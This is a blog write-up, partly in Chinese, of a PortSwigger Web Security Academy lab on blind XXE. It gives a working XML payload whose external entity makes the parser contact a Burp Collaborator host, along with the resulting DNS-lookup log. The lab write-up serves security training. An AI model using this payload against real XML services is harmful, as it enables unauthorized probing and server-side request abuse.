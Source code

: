 ```yaml
---
layout: post
title: "Blind XXE with out-of-band interaction"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_XXE
author: ""
tags: ['PortSwigger_Lab', 'XXE']
---
```






# Blind XXE with out-of-band interaction


w3schools.com:
https://www.w3schools.com/xml/xml_dtd_entities.asp


```

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the [blind XXE](https://portswigger.net/web-security/xxe/blind) vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.



這個實驗室有一個“檢查庫存”功能，它解析 XML 輸入但不顯示結果。

您可以通過觸發與外部域的帶外交互來檢測盲 XXE 漏洞。

要解決實驗室問題，請使用外部實體使 XML 解析器向 Burp Collaborator 發出 DNS 查找和 HTTP 請求。
筆記

為了防止 Academy 平台被用於攻擊第三方，我們的防火牆阻止了實驗室與任意外部系統之間的交互。 要解決實驗室，您必須使用 Burp Collaborator 的默認公共服務器。





```


意思就是顯示不了，所以用代外攻擊來看是否有xxe漏洞。









官方給的payload
```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```



collaborator server:
```
ssofwofql88rhdo78vjcxdlae1kt8i.burpcollaborator.net

```


修改
```xml


<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://ssofwofql88rhdo78vjcxdlae1kt8i.burpcollaborator.net"> ]>

<stockcheck>
	<productid>&xxe;</productid>
	<storeid>1</storeid>
</stockcheck>

```



collaborator client:
```
The Collaborator server received a DNS lookup of type A for the domain name ssofwofql88rhdo78vjcxdlae1kt8i.burpcollaborator.net.  The lookup was received from IP address 34.245.82.18 at 2022-10.-12 09:00:26 UTC.

```


成功